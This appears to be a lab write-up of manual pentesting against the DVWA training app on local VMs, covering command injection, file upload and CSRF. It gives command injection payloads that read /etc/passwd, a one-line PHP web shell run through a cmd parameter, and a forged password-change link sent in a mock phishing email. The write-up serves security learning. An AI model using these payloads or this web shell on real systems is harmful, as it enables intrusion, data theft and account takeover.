

# Manual Pentesting: DVWA Modules
## Objective
To validate the OWASP ZAP scan results and observe how the web app reacts. Continuation of part 1, which covered SQLi, XSS (reflected), and brute force.

___
## Command Injection 
**Expected behavior**: ping the input IP address (e.g. 127.0.0.1 to ping the Ubuntu server from Kali) and display its result.


**Payload:** `127.0.0.1; whoami
- Meaning: send ping to Ubuntu then command chain to reveal which system user the web server is executing as
- Result: www-data displayed on page after ping results


**Payload:** `127.0.0.1 && uname -a
- Meaning: send ping then reveal the victim's kernel and system architecture details if the ping succeeds
- Result: Linux server info


**Payload:** `127.0.0.1; cat /etc/passwd
- Meaning: send ping then display the contents of the `/etc/passwd` file
- Result: lists all user accounts on Ubuntu's system



___
## File Upload
### Steps
1. Created a malicious file named`shell.php`
	This file executes any system command passed through the URL via the `cmd` parameter
```php
   <?php system($_GET['cmd']); ?>
```

2. Uploaded file to DVWA's File Upload module


3. Executed commands in the browser by entering the urls:
	`http://192.168.56.20/DVWA/hackable/uploads/shell.php?cmd=whoami

	
	
	`?cmd=uname -a
	
	

	`?cmd=cat /etc/passwd
	
	
### Result
All commands were executed and leaked information about the victim server, like in the command injection module.

___
## CSRF (cross site request forgery)
### Purpose
While the Ubuntu victim is logged into DVWA, trick them into changing the password of the admin account.


### Steps
#### 1. Inspect the module's page source and create malicious link.


The web app uses a GET method to change the password. 
- `action="#"` means it posts to the same page
- Input fields:
	- `password_new`
	- `password_conf`
	- `Change` (submit button name)

The following link can be used to change the password to `hacked: 
```
http://192.168.56.20/DVWA/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
#### 2. Victim is logged into DVWA as `admin.

#### 3. Send phishing email to victim containing the malicious link.
I sent myself the following email and opened it on the Ubuntu VM. I clicked on the "Claim Your Gift" button, which opened the malicious link in a new tab.


#### Result
When I click Test Credentials and enter`admin`/`password`, the login fails. 


`admin`/`hacked` works, so the password was changed to `hacked` successfully.


